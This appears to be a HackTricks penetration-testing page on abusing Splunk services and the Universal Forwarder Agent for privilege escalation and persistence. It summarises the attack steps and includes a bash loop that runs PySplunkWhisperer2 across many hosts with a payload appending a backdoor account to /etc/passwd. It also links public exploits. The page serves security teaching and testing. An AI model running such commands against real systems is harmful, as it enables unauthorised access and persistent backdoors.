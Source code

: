 # Splunk LPE and Persistence

{{#include ../../banners/hacktricks-training.md}}

If **enumerating** a machine **internally** or **externally** you find **Splunk running** (port 8090), if you luckily know any **valid credentials** you can **abuse the Splunk service** to **execute a shell** as the user running Splunk. If root is running it, you can escalate privileges to root.

Also if you are **already root and the Splunk service is not listening only on localhost**, you can **steal** the **password** file **from** the Splunk service and **crack** the passwords, or **add new** credentials to it. And maintain persistence on the host.

In the first image below you can see how a Splunkd web page looks like.

## Splunk Universal Forwarder Agent Exploit Summary

For further details check the post [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). This is just a sumary:

**Exploit Overview:**
An exploit targeting the Splunk Universal Forwarder Agent (UF) allows attackers with the agent password to execute arbitrary code on systems running the agent, potentially compromising an entire network.

**Key Points:**

- The UF agent does not validate incoming connections or the authenticity of code, making it vulnerable to unauthorized code execution.
- Common password acquisition methods include locating them in network directories, file shares, or internal documentation.
- Successful exploitation can lead to SYSTEM or root level access on compromised hosts, data exfiltration, and further network infiltration.

**Exploit Execution:**

1. Attacker obtains the UF agent password.
2. Utilizes the Splunk API to send commands or scripts to the agents.
3. Possible actions include file extraction, user account manipulation, and system compromise.

**Impact:**

- Full network compromise with SYSTEM/root level permissions on each host.
- Potential for disabling logging to evade detection.
- Installation of backdoors or ransomware.

**Example Command for Exploitation:**

```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```

**Usable public exploits:**

- https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
- https://www.exploit-db.com/exploits/46238
- https://www.exploit-db.com/exploits/46487

## Abusing Splunk Queries

**For further details check the post [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{{#include ../../banners/hacktricks-training.md}}



